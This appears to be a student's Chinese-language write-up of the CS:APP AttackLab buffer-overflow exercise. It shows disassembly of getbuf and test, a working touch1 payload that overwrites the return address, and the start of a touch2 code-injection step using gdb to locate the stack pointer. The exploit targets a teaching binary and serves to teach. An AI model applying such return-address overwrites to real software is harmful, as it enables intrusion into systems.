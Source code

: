 # AttackLab
## 10224507041 kevin

### 提交命令
./hex2raw < testtouch.txt | ./ctarget -q
./hex2raw < testtouch.txt | ./rtarget -q

```
00000000004018f2 <getbuf>:
  4018f2:	48 83 ec 18          	sub    $0x18,%rsp  //24字节
  4018f6:	48 89 e7             	mov    %rsp,%rdi
  4018f9:	e8 82 02 00 00       	callq  401b80 <Gets>
  4018fe:	b8 01 00 00 00       	mov    $0x1,%eax
  401903:	48 83 c4 18          	add    $0x18,%rsp
  401907:	c3                   	retq   
所开的栈有24个字节，返回地址有8个字节，所以需要输入24+8=32个十六进制数，以此来覆盖原来的返回地址

0000000000401ab0 <test>:
  401ab0:	48 83 ec 08          	sub    $0x8,%rsp
  401ab4:	b8 00 00 00 00       	mov    $0x0,%eax
  401ab9:	e8 34 fe ff ff       	callq  4018f2 <getbuf>
  401abe:	89 c2                	mov    %eax,%edx
  401ac0:	be 98 34 40 00       	mov    $0x403498,%esi
  401ac5:	bf 01 00 00 00       	mov    $0x1,%edi
  401aca:	b8 00 00 00 00       	mov    $0x0,%eax
  401acf:	e8 0c f3 ff ff       	callq  400de0 <__printf_chk@plt>
  401ad4:	48 83 c4 08          	add    $0x8,%rsp
  401ad8:	c3                   	retq   
  401ad9:	0f 1f 80 00 00 00 00 	nopl   0x0(%rax)
test函数callq  4018f2 <getbuf>后返回
```

## touch1
观察到touch1中没有多余的功能，故前面24位填充无效十六进制数，
后面8位跳转到touch1的地址（注意要用小端法）即可。
```
aws：
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
08 19 40 00 00 00 00 00
```

## touch2
touch2函数需要我们再输入一个参数，并存在一个比较，若参数不等于`cookie（0x4bca8e48）`则报错，
所以需要考虑如何输入参数，直接输入必然不能实现，所以首先仍是选择要跳转的目标地址，
在这里由于要输入参数，我们选择跳转到`%rsp`的位置，以便后续函数注入，借助jdb设置断点，
查看`%rsp`此时地址
```
(gdb) break *0x4018f6
Breakpoint 1 at 0x4018f6: file buf.c, line 14.
(gdb) run -q
Starting program: /home/jovyan/lab3/target30/ctarget -q
Cookie: 0x4bca8e48

Breakpoint 1, getbuf () at buf.c:14
14      buf.c: No such file or directory.
(gdb) info registers
··· ···
rsp            0x55648998       0x55648998
··· ···
```